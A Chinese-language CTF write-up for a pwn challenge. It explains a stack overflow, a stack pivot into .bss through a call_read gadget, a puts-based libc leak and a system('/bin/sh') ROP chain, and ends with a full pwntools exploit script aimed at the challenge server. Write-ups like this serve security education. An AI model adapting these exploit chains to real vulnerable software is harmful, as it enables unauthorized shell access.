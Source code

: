 ### call_read 迁移到 BSS 段

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/6836ad5c58cb8da5c81408cf.png)

明显存在栈溢出

![](https://pic1.imgdb.cn/item/6836af1758cb8da5c8141565.png)

但是可利用长度不够，考虑栈迁移

![](https://pic1.imgdb.cn/item/6836af2858cb8da5c81416ae.png)

左边有给出 `read` 函数

![](https://pic1.imgdb.cn/item/6836af6958cb8da5c8141c57.png)

使用 `call_read` + 栈迁移打法

```python
# 写入 call_read 的地址，使函数 main 或触发溢出的函数返回时跳转到 read，从而在 .bss 处读取后续数据
payload = b'a' * 0x100 + p64(bss) + p64(call_read)
p.send(payload)
```

在 `.bss` 中构造第二阶段 ROP 链

```python
# 第一条 p64(bss_next) 将新的栈底指向 .bss+0x500，为接下来的链留空间
payload  = p64(bss_next)

# 调用 puts(puts_got) 泄露 libc 中 puts 的实际地址
payload += p64(rdi_ret) + p64(puts_got) + p64(puts_plt)

# 调用 read，将在 .bss+0x500 处继续写入最终 ROP
payload += p64(call_read)

# 填充到 0x100
payload = payload.ljust(0x100, b'\x00')

# 最后写入 (old_RBP, leave_ret)，当函数返回时执行 leave; ret
payload += p64(bss - 0x100) + p64(leave_ret)
p.send(payload)
```

计算 libc 基址与构造最终 ROP

```python
libc_add  = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
libcbase  = libc_add - libc.sym['puts']
system    = libcbase + libc.symbols['system']
str_bin_sh= libcbase + next(libc.search(b'/bin/sh'))
```

调用 system 拿 shell

```python
payload = p64(rdi_ret) + p64(str_bin_sh) + p64(system)
payload = payload.ljust(0x100, b'\x00')

# 与第二阶段相似，构造新的 RBP 和 leave; ret，将栈指向该 payload 并执行，完成最终调用
payload += p64(bss_next - 0x100 - 0x8) + p64(leave_ret)
p.send(payload)

p.interactive()
```

完整 payload

```python
from pwn import *
from LibcSearcher import *

p = remote('challenge.qsnctf.com', 30473)
FILENAME = './pwn5'
libc = ELF('./libc-2.31.so')

# First stage: stack pivot to BSS
call_read = 0x40119B
bss = 0x404340
payload = b'a' * (0x100) + p64(bss) + p64(call_read)
p.send(payload)

# Second stage: leak libc address
rdi_ret = 0x0000000000401210
ret = 0x000000000040101a
leave_ret = 0x00000000004011be
puts_plt = 0x401064
puts_got = 0x404018
bss_next = bss + 0x500

payload = p64(bss_next) + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(call_read)
payload = payload.ljust(0x100, b'\x00')
payload += p64(bss - 0x100) + p64(leave_ret)

p.send(payload)

# Calculate libc base address
libc_add = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
libcbase = libc_add - libc.sym['puts']
system = libcbase + libc.symbols['system']
str_bin_sh = libcbase + next(libc.search(b'/bin/sh'))
success('libcbase ' + hex(libcbase))

# Final stage: get shell
payload = p64(rdi_ret) + p64(str_bin_sh) + p64(system)
payload = payload.ljust(0x100, b'\x00')
payload += p64(bss_next - 0x100 - 0x8) + p64(leave_ret)
p.send(payload)

p.interactive()
```

